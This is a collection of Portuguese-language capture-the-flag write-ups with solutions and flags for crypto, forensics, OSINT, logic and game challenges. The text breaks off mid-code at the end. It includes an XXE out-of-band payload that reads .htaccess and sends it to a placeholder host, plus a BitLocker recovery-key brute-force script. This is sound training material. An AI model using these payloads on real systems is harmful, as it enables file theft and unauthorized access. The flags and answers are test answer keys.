

## Sumário

* [Boot2Root](#boot2root)
    * [UnHide (300)](#unhide-300)
* [Cripto](#cripto)
    * [Cripto 001 (10)](#cripto-001-10)
    * [RSA 001 (10)](#rsa-001-10)
    * [Presente de Aniversário (25)](#presente-de-aniversário-25)
    * [RSA 002 (25)](#rsa-002-25)
    * [Enigma (50)](#enigma-50)
    * [Senha Perdida (50)](#senha-perdida-50)
    * [Mensagem Codificada (100)](#mensagem-codificada-100)
    * [Receita de Bolo (100)](#receita-de-bolo-100)
* [Forense](#forense)
    * [Arquivo Compactado (10)](#arquivo-compactado-10)
    * [Uma Simples Análise (10)](#uma-simples-análise-10)
    * [Break the Hash (25)](#break-the-hash-25)
    * [Um ataque ao banco (25)](#um-ataque-ao-banco-25)
    * [Validação de Dados (25)](#validação-de-dados-25)
    * [Backdoor (50)](#backdoor-50)
    * [Escovando Bits de Rede (50)](#escovando-bits-de-rede-50)
    * [Qual o conteúdo? (50)](#qual-o-conteúdo-50)
    * [Investigação (100)](#investigação-100)
    * [Vazamento de Informações (100)](#vazamento-de-informações-100)
* [Lógica](#lógica)
    * [Sequência (10)](#sequência-10)
    * [Sequência de Collatz (10)](#sequência-de-collatz-10)
    * [Rotas (50)](#rotas-50)
* [Mini Gamer](#mini-gamer)
    * [Adivinha (10)](#adivinha-10)
    * [Pokedex (50)](#pokedex-50)
* [Mini Web](#mini-web)
    * [Navi GPS (10)](#navi-gps-10)
    * [Ship (10)](#ship-10)
    * [Safe URL (25)](#safe-url-25)
    * [Solutions (25)](#solutions-25)
    * [Developer (50)](#developer-50)
    * [MDK (50)](#mdk-50)
    * [External (100)](#external-100)
    * [Mico (100)](#mico-100)
    * [Notes (150)](#notes-150)
    * [Techport (150)](#techport-150)
    * [Defense and Attack (200)](#defense-and-attack-200)
* [Osint](#osint)
    * [Informações de um arquivo! (10)](#informações-de-um-arquivo-10)
    * [Rastreio de IP (10)](#rastreio-de-ip-10)
    * [Dispositivo Antigo (25)](#dispositivo-antigo-25)
    * [Encontre a fotógrafa (25)](#encontre-a-fotógrafa-25)
    * [Hidden Flag (50)](#hidden-flag-50)
    * [Investigação de Voo (50)](#investigação-de-voo-50)
    * [A melhor rua para um gato! (100)](#a-melhor-rua-para-um-gato-100)
* [Outros](#outros)
    * [Look_Find_Replace (10)](#look_find_replace-10)
    * [Looping (10)](#looping-10)
    * [As mãozinhas (25)](#as-mãozinhas-25)
    * [Não é IPv4 (25)](#não-é-ipv4-25)
    * [O Banco Alq (50)](#o-banco-alq-50)
    * [O código obscuro (50)](#o-código-obscuro-50)
    * [Roubo ao Museu (50)](#roubo-ao-museu-50)
    * [Onion Services (100)](#onion-services-100)
    * [Publicidade de Limpeza (100)](#publicidade-de-limpeza-100)
* [Pwn](#pwn)
    * [Pwn01 (10)](#pwn01-10)
    * [Pwn02 (10)](#pwn02-10)
    * [Pwn03 (25)](#pwn03-25)
    * [Oculto.exe (50)](#ocultoexe-50)
    * [Pwn04 (50)](#pwn04-50)
* [Stego](#stego)
    * [Descoberta Histórica (10)](#descoberta-histórica-10)
    * [Quase Igual (10)](#quase-igual-10)
    * [Vaso de decoração (25)](#vaso-de-decoração-25)
    * [Fake Story (50)](#fake-story-50)
    * [Na Deepweb 2 (50)](#na-deepweb-2-50)
    * [Tinta Invisível (50)](#tinta-invisível-50)
    * [A Animação (100)](#a-animação-100)
    * [O lado oculto da lua (100)](#o-lado-oculto-da-lua-100)
    * [Arte (150)](#arte-150)

# Boot2Root

## UnHide (300)
### Descrição
Aplicação PHP com endpoint que permite utilização Arbitrária de Classes e Funções.

### Solução detalhada

Primeiramente, ao acessar unhide.app é possível observar que um código php está sendo executado ao realizar POST requests na pagina.


O código PHP é vulnerável na medida em que permite que um atacante malicioso chame alguma classe com função nociva e cause danos e / ou exfiltre dados da aplicação.

Dessa forma, esses dados estão sendo acessados via json, analise o seguinte request


Na imagem é utilizado a classe DOMDocument, por meio dela é possível fazer chamadas com a função load() que renderiza xml ao passar uma url como argumento.

Nesse contexto, torna-se evidente a possibilidade de exploração de XXE para SSRF ou Local File read.

Para explorar, o conteudo de xml.xml é

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://iphere:8000/xpl.dtd"> %ext;
%ext;
]>
<r></r>
```

E o conteudo de xpl.dtd é

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/.htaccess">
<!ENTITY % payload "<!ENTITY &#37; xpl SYSTEM 'http://iphere:8000/?leak=%data;'">
%payload;
%xpl;
```

O qual usa o php para ler o arquivo `/var/www/html/.htaccess` , que contém a flag.


### Flag
```
ALQ{PHP_1nt3rn4ls_F0r_Fun_4nd_Pr0f1t}
```

# Cripto

## Cripto 001 (10)
### Descrição

Uma simples challenge de criptografia que envolve reverter o processo de uma criptografia.

### Flag

ALQ{f1bon4cc1_d0_4rkham}

### Solução detalhada

Para podermos reverter o processo da criptografia do arkham, primeiro precisamos entender como o codigo em c que ele criou funciona;


```
// cripto do arkham - 2023
// use uma string de no maximo 25 caracteres para criptografar

#include <stdio.h>
#include <time.h>
#include <string.h>

int main(int argc, char *argv[])
{
     int count, x, y, z, lc, t, r;
     FILE *a;
     srand(time(NULL));

     if(argc != 2)
     {
          printf("\nUse: ./ark-cripto [secret_message]\n");
          printf("Examples:\n");
          printf("./ark-cripto hello_arkham!\n\n");
          return 0;
     }

     a = fopen("output-ark-cripto.txt", "w");
     t = strlen(argv[1]);
     x = 34;
     y = 55;
     lc = 0;

     for(count = 0; count < 10000000; count++)
     {
          z = x + y;
          r = rand() % 127;
          if((count == z) && (lc < t))
          {
               fprintf(a, "%c", argv[1][lc]);
               lc++;
               x = y;
               y = z;
          }
          else
          {
               fprintf(a, "%c", r);
          }
     }

     fclose(a);
     return 0;
}
```

Ele criptografa uma mensagem secreta fornecida como argumento de linha de comando, usando uma sequência de números aleatórios para substituir os caracteres da mensagem original. Aqui está um resumo bem resumido do que o código faz:

O programa começa importando as bibliotecas necessárias (stdio.h, time.h e string.h).

Ele verifica se o número correto de argumentos foi passado via linha de comando. Se não for o caso, ele imprime mensagens de instrução e exemplos de uso e encerra.

O programa abre um arquivo chamado "output-ark-cripto.txt" para escrita.

Ele obtém o comprimento da mensagem secreta passada como argumento.

Inicializa algumas variáveis (x, y, lc) e inicia um loop que se repetirá 10 milhões de vezes.

Em cada iteração do loop, ele calcula um novo valor 'z' somando os valores de 'x' e 'y', e gera um número aleatório 'r' entre 0 e 126.

Ele verifica se a contagem atual é igual a 'z' e se o índice 'lc' é menor que o comprimento da mensagem original.

Se as condições forem atendidas, ele escreve o próximo caractere da mensagem original no arquivo de saída, atualiza o índice 'lc', e atualiza os valores de 'x' e 'y' com 'y' e 'z', respectivamente.

Caso contrário, ele escreve o caractere representado por 'r' no arquivo de saída.

Após o loop, o programa fecha o arquivo de saída e termina.

Em resumo, o código gera um arquivo de saída que contém uma sequência de caracteres criptografados gerados a partir da mensagem original, utilizando uma técnica baseada em números aleatórios e manipulação de índices. e essa criptografia é muito simples.


Agora para poder descriptografar podemos criar um codigo em C aonde;

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    int count, x, y, z, lc, r;
    char d[1000];
    int m = 0;

    FILE *a = fopen("output-ark-cripto.txt", "r");
    if (a == NULL) {
        perror("Error");
        return 1;
    }

    fseek(a, 0, SEEK_END);
    m = ftell(a);
    fseek(a, 0, SEEK_SET);

    x = 34;
    y = 55;
    lc = 0;

    for (count = 0; count < m; count++) {
        z = x + y;
        r = fgetc(a);

        if (count == z) {
            d[lc] = r;
            lc++;
            x = y;
            y = z;
        }
    }

    d[lc] = '\0';

    printf("Toma tua flag bb: %s\n", d);

    fclose(a);
    return 0;
}
```

* Inclui as bibliotecas padrão stdio.h, stdlib.h e string.h.
* Define a função main(), que é o ponto de entrada do programa.
* Declara várias variáveis, incluindo count para contar iterações, x e y para cálculos, z para um valor intermediário, lc para controlar a posição no array d, r para armazenar caracteres lidos do arquivo, d para armazenar uma sequência de caracteres e m para o tamanho do arquivo.
* Abre o arquivo chamado "output-ark-cripto.txt" no modo leitura ("r"), verificando se a abertura foi bem-sucedida. Se não for, imprime uma mensagem de erro e encerra o programa com código de erro 1.
* Utiliza fseek para posicionar o ponteiro de arquivo no final do arquivo (SEEK_END) e, em seguida, obtém a posição atual do ponteiro usando ftell. Isso é usado para determinar o tamanho do arquivo.
* Retorna o ponteiro do arquivo para o início usando fseek com SEEK_SET.
* Inicializa os valores de x, y e lc.
* Entra em um loop que percorre cada caractere do arquivo lido, um por um.
* Dentro do loop, calcula z como a soma de x e y e lê um caractere do arquivo para r.
* Se count for igual a z, isso significa que o caractere atual deve ser armazenado no array d. Portanto, o caractere é atribuído a d[lc], a variável lc é incrementada e os valores de x e y são atualizados para y e z, respectivamente.
* Após o loop, é adicionado um caractere nulo '\0' ao final do array d, para garantir que ele seja tratado como uma string válida.
* Imprime a string contida em d com uma mensagem "Toma tua flag bb: ".
* Fecha o arquivo.
* Retorna 0 para indicar que o programa foi executado com sucesso.

E aqui está a flag;


## RSA 001 (10)
### Descrição
Arkham incentiva você a aprender sobre RSA. Com os dados do arquivo, pegue a flag.
### Arquivos anexados
rsa_01.txt
```
c = 68861979362313937217341109449187942472677489431259064594664393481393538163263609558838135514001241240414455123424967933524103912542708764016834442464998331552578544296768041973861

e = 3

n = 121620961731804419004021143368532722763668760235699989573151802144418248705170115193101386837082261773971327940315202720151000245641129416506284675906712150736882391279682090167795652477221135577759849554943920194532454895023360059605758650293424537883951541160288234396389432832279299280649201120223904269059
```
### Flag
```
ALQ{br1nc4ndo_c0m_RSA_01}
```
### Solução detalhada
O arquivo ```rsa_01.txt``` havia os valores de C, E, e N, e para descriptografar a mensagem, usamos o site [Dcode](https://www.dcode.fr/rsa-cipher) e preenchemos os campos com as informações recebidas.


## Presente de Aniversário (25)
### Descrição

Bernardino Branca criou uma bebida e deu de presente a seu amigo Arkham. Como sabia que ele gostava de criptografia, deixou uma no rótulo da garrafa para que ele desvendasse.

### Flag

ALQ{F3rnet_eh_facinho_03}

### Solução detalhada

No enunciado no desafio, está escrito o nome de uma pessoa chamada "Bernardino Branca", e procurando por este nome no google, podemos ver que ele criou uma bebida chamado fernet, e existe uma criptografia chamada fernet, e basta usarmos a key e o token para decodar, e pegar a flag.


## RSA 002 (25)
### Descrição
Arkham perguntou se aprendeu mais sobre RSA. Um novo arquivo foi dado, pegue a flag.
### Arquivos anexados
rsa_02.txt
```
c = 48511084925420183526614667750002314553245557087216359040164380168157417205838054818182432397825164639931743581979319934170597819562239990100288549990558302029912888160607214

e = 65537

n = 81498020757970999609067174109320139979405492813078153599363977189249525322740350714279156100679701512700773830282784597802936563570271837144481924930802287893627198892230683
```
### Flag
```
ALQ{RSA_m4is_c0mpl3xo_02}
```
### Solução detalhada
O arquivo ```rsa_02.txt``` havia os valores de C, E, e N, e para descriptografar a mensagem, usamos a ferramenta **RsaCtfTool** para resolver o desafio usando o seguinte comando:

```
1. `python3 ./RsaCtfTool.py -n 81498020757970999609067174109320139979405492813078153599363977189249525322740350714279156100679701512700773830282784597802936563570271837144481924930802287893627198892230683 -e 65537 --uncipher 48511084925420183526614667750002314553245557087216359040164380168157417205838054818182432397825164639931743581979319934170597819562239990100288549990558302029912888160607214`
```


## Enigma (50)
### Descrição

Esta challenge consistia em resolver um "enigma".

### Flag

ALQ{grandeenigmadeturing}

### Solução detalhada

No enunciado do desafio estava escrito "enigma", então bastava pesquisar por criptografia, e achamos o "Enigma machine".

Para poder decriptar, basta seguir os passos que estava no txt, já que estava tudo em ordem praticamente.


## Senha Perdida (50)
### Descrição

Challenge envolvendo Gronsfeld Cipher e uma key para decriptar.

### Flag

ALQ{ISSOAQUIEGRONSFELD}

### Solução detalhada

Esta foi uma challenge no qual precisariamos encontrar um tipo de cifra chamada Gronsfeld, que é uma cifra polialfabética, depois usamos a key que estava no proprio enunciado da chall "123456" para poder decriptar, e obter a flag.


## Mensagem Codificada (100)
### Descrição
Uma mensagem foi estranhamente recebida por um dos nossos desenvolvedores mobile.

h-cc-bbb-eee-b-c-fff-h-iiiii

Adicione a palavra encontrada no modelo de flag: ALQ{resposta}
### Flag
```
ALQ{tecladot9}
```
### Solução detalhada
Observando a descrição do desafio, a palavra "mobile" está presente, então começamos a pensar em alguma mensagem, codificação relacionada a mobile. Chegamos a converter as letras para seus respectivos números dentro do alfabeto:

```
8-33-222-555-2-3-666-8-99999
```

Um dos jogadores levantou uma hipótese sobre o teclado dos celulares antigos, conhecidos como **teclados T9**.


Com base nessa informação, fizemos a decodificação da mensagem codificada, que resultou em:

```
t-e-c-l-a-d-o-t-9
```

Formando assim a flag ```ALQ{tecladot9}```.

## Receita de Bolo (100)
### Descrição

Esta challenge consistia em fazer o processo reverso de uma codificação.

### Flag

ALQ{m1nh@_crpt0}

### Solução detalhada

Para poder obter a flag, basta fazer o processo oposto (reverso) do que foi codificado, depois de muitos testes, descobrimos que a quantia do ro13 deve ficar em 18 para poder dar certo, segue a lógica abaixo;

```
YneYPkgV2FIpujf02mZfCY -> rot13 (quantia 18) -> QfwQHcyN2XAhmbx02eRxUQ

QfwQHcyN2XAhmbx02eRxUQ -> reverse -> QUxRe20xbmhAX2NycHQwfQ

QUxRe20xbmhAX2NycHQwfQ -> base64 -> ALQ{m1nh@_crpt0}
```


# Forense

## Arquivo Compactado (10)
### Descrição

O meu Deus, como faço para conseguir ler o meu arquivo, já que esqueci a senha? Quem pode me ajudar?

### Arquivos anexados

### Flag

ALQ{s3nha_qu3brad@}

### Solução detalhada

Basicamente este desafio consistia em quebrar a senha do zip, e pegar a flag.


## Uma Simples Análise (10)
### Descrição
Kadu estava navegando em alguns sites quando descobriu um caminho peculiar, consegue descobrir qual foi e recupear a bandeira analisando o PCAP?
### Arquivos anexados

* [alq.pcapng](files/alq.pcapng)
### Flag
```
ALQ{W1r3Sh@rK!}
```
### Solução detalhada
Ao abrir o arquivo com a ferramenta **Wireshark**, começamos a pesquisar por pacotes HTTP. Indo para o último pacote HTTP, encontramos um pacote contendo a flag na resposta HTTP.


## Break the Hash (25)
### Descrição

Aconteceu alguma coisa na hora de copiar a hash que não consigo mais quebra-la.

48bb6e862e54f2a795ffc4e541caed4dk

Adicione o resultado dentro da flag ALQ{senha-quebrada}

### Flag

ALQ{easy}

### Solução detalhada

A hash md5 estava com um char a mais, que seria o "k", removendo esse "k", e utilizando o decrypt md5 do dcode.fr, teremos a flag.


## Um ataque ao banco (25)
### Descrição
Parece que o [https://bancoalq.com.br/](https://bancoalq.com.br/) nem começou a ser desenvolvido e já temos algumas pessoas fazendo alguns requests com tentativas de login em nossa plataforma. Ainda bem que estamos sempre de olho em nossos logs de servidor para descobrir qualquer tentativa maliciosa.

Pontue adicionando dentro da nossa flag ALQ{ip-do-atacante--plataforma-do-site}
### Arquivos anexados

* [log-nginx.txt](files/log-nginx.txt)
### Flag
```
ALQ{162.158.189.173--wordpress}
```
### Solução detalhada
Analisando o arquivo de log, percebemos que várias requisições foram feitas para o ```xmlrpc.php```.


Existe uma vulnerabilidade no Wordpress onde o atacante abusa de uma função do XMLRPC para fazer uma sobrecarga no servidor. No entanto, a flag final é ```ALQ{162.158.189.173--wordpress}```.

## Validação de Dados (25)
### Descrição
Descubra através de uma base de dados quantas informações possuem na base de dados.

Resp1: Qual a quantidade total de registros na base de dados? Resp2: Qual a quantidade de e-mail cadastrados? Resp3: Qual a quantidade de hashs válidos possuem na base de dados?

Junte todas as respostas no seguinte padrão: ALQ{resp1-resp2-resp3}
### Arquivos anexados

* [bd.db](files/bd.db)
### Flag
```
ALQ{100-94-89}
```
### Solução detalhada
Usando a ferramenta **DB Browser for SQLite**, abrimos o banco de dados. Para montar a primeira parte da resposta, encontramos a tabela "users" e fomos até o final dela.


A quantidade de e-mails que havia na coluna "Email" era de 94.

Analisando todos os hashs, descobrimos que havia 89 válidos.

No final, a flag completa foi ```ALQ{100-94-89}```.

## Backdoor (50)
### Descrição

Uma máquina no qual o objetivo é identificar uma backdoor (Pam Backdoor).

### Flag

ALQ{pam_unix.so}

### Descrição detalhada

Ao entrar no ssh, podemos usar a mesma senha do usuario ubuntu para se tornar root. Após isso, ao ir no /root, poderiamos ver o linpeas.sh e o pspy64 (isso foi colocado propositalmente na máquina).

Rodando o linpeas, você verá que existe um arquivo chamado "/usr/include/type.h"


Ao visualizar esse arquivo, podemos ver a senha do usuário ubuntu, e a senha do usuário root.


Pesquisando por "type.h" "pam" backdoor, chegamos a um repositorio no github, no qual o author cria uma ferramenta pra backdoor chamada de Pam Backdoor.


## Escovando Bits de Rede (50)
### Descrição
O investigador ooclaar, utilizou um equipamento experimental para capturar as tensões que estavam passando no fio de cobre (cabo par trançado).

O investigador concluiu que se juntasse todos os valores, isso poderia ser analisado e convertido em dados. Sabendo disso informe dentro da flag ALQ{xxx.xxx.xxx.xxx} o IP de origem quem enviou os dados capturados.
### Arquivos anexados
escovando-bits-de-redes.txt
```
3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V5V3V5V0V3V3V5V5V3V5V3V5V0V3V5V5V3V3V5V3V3V0V3V5V5V3V3V5V5V3V0V3V3V5V5V3V3V5V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V5V5V0V3V3V5V5V3V3V5V5V0V3V5V5V3V3V3V5V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V5V3V5V0V3V3V5V5V3V5V3V5V0V3V5V5V3V3V5V3V3V0V3V5V5V3V3V5V3V5V0V3V5V5V3V3V5V3V3V0V3V3V5V5V3V5V3V5V0V3V5V5V3V3V5V3V5V0V3V5V5V3V3V3V5V5V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V3V3V3V0V3V3V5V5V5V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V5V3V3V0V3V3V5V5V3V5V3V5V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V5V5V0V3V3V5V5V3V5V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V5V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V5V5V0V3V3V5V5V3V5V5V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V5V5V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V5V5V0V3V3V5V5V3V3V3V5V0V3V5V5V3V3V3V5V5V0V3V5V5V3V3V3V5V5V0V3V3V5V5V5V3V3V3V0V3V5V5V3V3V3V3V5V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V5V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V5V5V0V3V5V5V3V3V3V3V5V0V3V5V5V3V3V3V5V5V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V5V5V3V0V3V5V5V3V3V3V5V5V0V3V5V5V3V3V3V3V5V0V3V5V5V3V3V5V3V5V0V3V5V5V3V3V5V3V5V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V5V3V0V3V5V5V3V3V3V5V3V0V3V5V5V3V3V5V3V3V0V3V3V5V5V3V3V5V3V0V3V5V5V3V3V5V5V3V0V3V3V5V5V3V3V3V3V0V3V5V5V3V3V3V5V5V0V3V5V5V3V3V3V5V5V0V3V3V5V5V3V5V3V3V0V3V5V5V3V3V3V5V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V5V3V0V3V3V5V5V3V5V5V3V0V3V3V5V5V3V3V3V3V0V3V5V5V3V3V3V3V5V0V3V5V5V3V3V5V3V3V0V3V5V5V3V3V5V3V3V0V3V5V5V3V3V5V3V3V0V3V5V5V3V3V5V5V3V0V3V3V5V5V3V3V3V3V0V3V5V5V3V3V5V3V5V0V3V3V5V5V3V3V3V5V0V3V3V5V5V5V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V3V5V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V3V5V3V0V3V3V5V5V3V5V3V3V0V3V3V5V5V3V5V5V5V0V3V3V5V5V3V5V3V3V0V3V5V5V3V3V5V3V5V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V3V3V3V0V3V3V5V5V5V3V3V3V0V3V3V5V5V3V3V3V3V0V3V5V5V3V3V3V3V5V0V3V3V5V5V3V5V3V5V0V3V3V5V5V3V3V5V3V0V3V3V5V5V3V5V5V5V0V3V3V5V5V3V3V3V3V0V3V3V5V5V3V5V3V3V0V3V3V5V5V3V3V5V5V0V3V5V5V3V3V3V5V3V0V3V5V5V3V3V5V3V3V0V3V3V5V5V3V5V5V3V0V3V3V5V5V3V5V3V5V0V3V5V5V3V3V3V5V3V0V3V5V5V3V3V5V3V5V0V3V3V5V5V5V3V3V5V0V3V3V5V5V3V3V3V5V0V3V3V5V5V3V5V3V3V0V3V3V5V5V3V3V3V3V
```
### Flag
```
ALQ{200.160.2.3}
```
### Solução detalhada
Observando os valores do arquivo, existe V0, V3 e V5. Fazendo uma rápida pesquisa sobre tensões elétricas, descobrimos que voltagens podem ser convertidos em binário.


Sendo assim, removemos todos os "0V", trocamos "V3" por "0" e "V5" por "1". Utilizamos a ferramenta CyberChef para essa tarefa.


A ferramenta detectou a origem da mensagem, que estava codificada em binário, e depois de decodificar o binário, um valor hex foi retornado.


Posteriormente ao decodificar o valor hex, a ferramenta identificou os bytes como um pacote TCP.


Utilizando o site [Gasmi](https://hpd.gasmi.net/), conseguimos decodificar o pacote em hex e obter o endereço IP que o desafio pedia.


## Qual o conteúdo? (50)
### Descrição
Um pendrive foi catalogado e feito uma imagem do seu conteúdo e disponibilizado para você. Também foi achado um arquivo com uma possível chave de recuperação do pendrive no computador do suspeito.

[Link para download](https://drive.google.com/drive/folders/1YsVshTD4ubztsWktBgjzxRCHfYinM0F9?usp=sharing)

Use suas habilidades forenses para descobrir o conteúdo do pendrive e indicar qual o nome do arquivo suspeito que foi encontrado a flag?

Identifique o arquivo adicionando **ALQ{nome_do_arquivo.ext}** para pontuar.

### Arquivos anexados

recover.TXT
```
Chave de recuperação de Criptografia de Unidade de Disco BitLocker 

Para verificar se esta é a chave de recuperação correta, compare o início do identificador a seguir com o valor do identificador exibido no computador.

Identificador:

	3164EECD-FD52-468C-8E60-DD1E6B79B7DD

Se o identificador acima corresponder ao que é exibido no computador, use a chave a seguir para desbloquear a unidade.

Chave de Recuperação:

	241802-225181-211574-115874-304095-169257-617353-52xxxx

Se o identificador acima não corresponder ao que é exibido no computador, significa que esta não é a chave correta para desbloquear a unidade.
Tente usar outra chave de recuperação ou consulte https://go.microsoft.com/fwlink/?LinkID=260589 para obter assistência.
```
### Flag
```
ALQ{main.cfg}
```
### Solução detalhada
Começamos montando a imagem VHD do pendrive em um sistema operacional Windows.


A única informação que tínhamos era a chave de recuperação, que estava faltando os últimos 4 dígitos finais.

Analisando o arquivo ```recover.TXT```, percebemos a falta dos 4 últimos dígitos da chave de recuperação BitLocker. Geramos um código Batch com a ajuda do ChatGPT para fazer um ataque de força bruta para descobrir os 4 dígitos finais da chave de recuperação.

Código Batch para ataque de força bruta na chave de recuperação BitLocker:
```
@echo off
setlocal enabledelayedexpansion

set "base_recovery_password=241802-225181-211574-115874-304095-169257-617353-52"
set "last_digits=0000"

:loop
if %last_digits% leq 9999 (
    set "full_recovery_password=%base_recovery_password%%last_digits%"
    echo Trying: %full_recovery_password%
    
    manage-bde -unlock D: -RecoveryPassword !full_recovery_password!
    
    set /a "last_digits+=1"
    goto loop
)

echo All combinations tried.
pause
```

Por ser um script incompleto, tivemos que procurar no output quais eram os últimos 4 dígitos, que eram ```4634```.

Chave de recuperação BitLocker completa:
```
241802-225181-211574-115874-304095-169257-617353-524634
```


Com a partição desbloqueada, verificamos os arquivos presentes.


Posteriormente ao encontrar a falsa flag, decidimos verificar a partição mais a fundo, fazendo uma investigação forensic utilizando a ferramenta conhecida como Autopsy.


Começamos a observa a data de criação e modificação dos arquivos da partição, e descobrimos que a data de modificação e criação do arquivo ```flag.txt``` era diferente, ele foi modificado 30 segundos depois de ser criado.


Clicamos em "File Created" para analisarmos o que foi modificado nesse horário. Encontramos 2 arquivos modificados.


Ao observar o conteúdo de ```/grub/main.cfg```, encontramos alguns valores estranhos.


Copiamos o valor e colamos na ferramenta CyberChef, que rapidamente detectou a cifra.


Então a flag final era ```ALQ{main.cfg}```.

## Investigação (100)
### Descrição
Sim, achamos a pasta, mas não achamos o conteúdo sensível que ele está escondendo... Ache a flag para pontuar nessa investigação.
### Arquivos anexados

* [home.tar.xz](files/home.tar.xz)
### Flag
```
ALQ{200.160.2.3}
```
### Solução detalhada
Ao descomprimir o arquivo ```home.tar.xz```, observamos que havia diversos diretórios e arquivos da home de um usuário.


Um dos jogadores disse que não haveria nenhuma informação escondida para ser procurada com uma ferramenta de análise de disco, como Autopsy, pelo fato de que estávamos lidando com um arquivo, e não um disco.

Partindo desse ponto, começamos a visualizar todos os arquivos com o comando ```ls -laR```. Encontramos uma ```id_rsa.pub``` no diretório ```.ssh```.


Ao ler o arquivo, o jogador suspeito dos caracteres presentes no arquivo, como se não fosse realmente um chave RSA pública.


Copiando o valor e adicionando na ferramenta CyberChef e usando a receita "From Base64", obtemos uma mensagem acompanhada com a flag.


## Vazamento de Informações (100)
### Descrição
Suspeita-se que um individuo está vazando informações confidenciais através de documentos do governo. Faça uma analise desse item e ache a prova.
### Arquivos anexados

* [documento.doc](files/documento.doc)
### Flag
```
ALQ{flag_escondida}
```
### Solução detalhada
Após baixar o documento, usamos a ferramenta **unzip** para extrair as informações do arquivo.


Posteriormente, usamos o comando ```grep -Ri alq``` para procurar por alguma informação relacionado a palavra "alq" ("ALQ", "ALq", "aLQ"...). Encontramos uma URL que levava a um site pertencente ao Canva.


Ao acessar o site, conseguimos visualizar a flag.


# Lógica

## Sequência (10)
### Descrição

Uma challenge que consistia em fazer um simples somatório matemático.

### Flag

ALQ{120}

### Solução detalhada

Usei um simples somatório matemático, onde n é cada número pedido, o que resultou em 120, logo: ALQ{120}


## Sequência de Collatz (10)
### Descrição

Calculo simples envolvendo sequência de collatz.

### Flag

ALQ{8}

### Solução detalhada

Para isso fiz um simples script em shell para poder ver quantas iterações são necessárias para chegar ao numero 1 a partir do número 6.

```
#!/bin/bash

n=6
i=0

echo "Sequencia de Collatz para o número $n:"
echo $n

while [ $n -ne 1 ]; do
    if [ $((n % 2)) -eq 0 ]; then
        n=$((n / 2))
    else
        n=$((3 * n + 1))
    fi
    echo $n
    i=$((i + 1))
done

echo "Flag: ALQ{$i}"
```


## Rotas (50)
### Descrição

### Arquivos anexados

### Flag

### Solução detalhada

# Mini Gamer

## Adivinha (10)
### Descrição

Uma challenge no qual o objetivo seria se conectar em um servidor, e achar o numero correto para obter a flag.

### Flag

ALQ{meu_primeiro_gamer}

### Solução detalhada

Esta challenge pode ser resolvida usando apenas uma linha de comando (oneline), para poder se conectar no servidor enviando numeros aleatórios de 1 até 100, até acertar o numero correto.

Oneline usado: while true; do echo $((RANDOM%100+1)) | nc ctf-play.alquymia.com.br 1234; done


## Pokedex (50)
### Descrição
nc 45.63.104.42 2345

### Arquivos anexados
pokedex.c

```
#include <stdio.h>
#include <stdlib.h>
int main()
{
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Bem-vindo à loja de trocas de Pokémon\n");
        printf("Aqui trocamos Pokémons\n\n");

        printf("1. Verificar saldo de moedas\n");
        printf("2. Trocar por Pokémons\n");
        printf("3. Sair\n\n");
        
        int menu;
        
        printf("Escolha uma opção no menu: ");
        fflush(stdout);
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n - Saldo: %d \n\n", account_balance);
        }
        else if(menu == 2){
